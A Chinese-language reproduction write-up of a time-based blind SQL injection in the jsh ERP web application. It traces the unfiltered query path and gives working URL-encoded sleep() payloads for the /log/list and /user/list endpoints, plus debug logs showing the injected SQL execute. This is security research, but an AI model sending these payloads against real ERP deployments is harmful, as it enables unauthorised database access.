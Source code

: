 返回的是一个ICommonQuery类型的值

这里的先调用初始化init方法，遍历service下的组件（每个文件夹下的component类）压入configComponentMap中
(这里调试着看会比较方便)

如果按照原文的话，apiName可以是user，按照我们的分析，apiName是Log

Log的话，我们构造一下exp

exp

```sql
/log/list?search=%7B%22operation%22%3A%220%22%2C%22userId%22%3A%220%22%2C%22clientIp%22%3A%220%22%2C%22status%22%3A%220%22%2C%22beginTime%22%3A%220%22%2C%22endTime%22%3A%220%22%2C%22content%22%3A%22jsh'%20or%20sleep(3)--%2B%22%7D&currentPage=1&pageSize=10

```

其实我们可以根据控制台的回显构造exp，非常方便，只要最后的地方拼接上or sleep就会触发

原文复现：

```java
所以这里要调用UserComponent的select方法的话需要apiName为user
 
return container.getCommonQuery(apiName).select(parameterMap);
```

然后传入了CommonQueryManager的select方法，整个过程没有任何过滤，然后刚才的分析可以知道，search应该为json格式的参数

payload

```sql
/user/list?search=%7b"userName"%3a""%2c"loginName"%3a"jsh%27%20and%20sleep(3)--%2b"%7d&currentPage=1&pageSize=10
```

打过去后，控制台输出

```sql
2023/08/03-10:40:25 DEBUG [http-nio-8081-exec-3] com.jsh.erp.datasource.mappers.UserMapperEx.countsByUser - ==> Parameters: 
 Time：9031 ms - ID：com.jsh.erp.datasource.mappers.UserMapperEx.selectByConditionUser
Execute SQL：SELECT user.id, user.username, user.login_name, user.position, user.email, user.phonenum, user.description, user.remark, user.isystem, org.id AS orgaId, user.tenant_id, org.org_abr, rel.user_blng_orga_dspl_seq, rel.id AS orgaUserRelId, (SELECT r.name FROM jsh_user_business ub INNER JOIN jsh_role r ON ub.value = concat("[", r.id, "]") AND ifnull(r.delete_flag, '0') != '1' WHERE ub.type = 'UserRole' AND ub.key_id = user.id LIMIT 0, 1) roleName FROM jsh_user user LEFT JOIN jsh_orga_user_rel rel ON rel.tenant_id = 63 AND user.id = rel.user_id AND ifnull(rel.delete_flag, '0') != '1' LEFT JOIN jsh_organization org ON org.tenant_id = 63 AND rel.orga_id = org.id AND ifnull(org.org_stcd, '0') != '5' WHERE user.tenant_id = 63 AND 1 = 1 AND ifnull(user.status, '0') NOT IN ('1', '2') AND user.login_name LIKE '%jsh' AND sleep(3) ORDER BY rel.user_blng_orga_dspl_seq, user.id DESC LIMIT 0, 10
 
2023/08/03-10:40:34 DEBUG [http-nio-8081-exec-3] com.jsh.erp.datasource.mappers.UserMapperEx.countsByUser - <==      Total: 1
 Time：9021 ms - ID：com.jsh.erp.datasource.mappers.UserMapperEx.countsByUser
Execute SQL：SELECT count(user.id) FROM jsh_user user LEFT JOIN jsh_user_business ub ON user.id = ub.key_id LEFT JOIN jsh_orga_user_rel rel ON rel.tenant_id = 63 AND user.id = rel.user_id AND ifnull(rel.delete_flag, '0') != '1' LEFT JOIN jsh_organization org ON org.tenant_id = 63 AND rel.orga_id = org.id AND ifnull(org.org_stcd, '0') != '5' WHERE user.tenant_id = 63 AND 1 = 1 AND ifnull(user.status, '0') NOT IN ('1', '2') AND user.login_name LIKE '%jsh' AND sleep(3)
```
